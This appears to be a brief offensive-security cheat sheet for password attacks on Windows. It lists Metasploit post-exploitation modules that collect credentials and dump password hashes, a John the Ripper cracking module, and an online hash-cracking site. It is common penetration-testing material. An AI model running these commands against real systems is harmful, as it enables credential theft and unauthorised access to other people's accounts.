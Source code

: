 	
# Exploitng Crack Passwords

## Crack passwords with metasploit

### Gather paswords on windows envirometns
```use post/windows/gather/credentials/credential_collector```

```use post/windows/gather/hashdump```

### Crack

```use auxiliary/analyze/jtr_crack_fast```
	
## Online Cracker

```https://crackstation.net/```
